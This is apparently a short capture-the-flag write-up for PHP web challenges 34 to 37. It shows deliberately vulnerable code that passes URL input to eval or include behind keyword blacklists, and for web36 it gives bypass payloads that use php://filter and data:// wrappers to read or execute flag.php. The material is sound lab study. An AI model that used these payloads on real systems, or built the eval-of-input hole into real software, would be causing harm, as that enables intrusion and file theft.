 

## web34

```
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```



## web35

同上

## web36

```
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```



```
c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```



## web37

```
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```
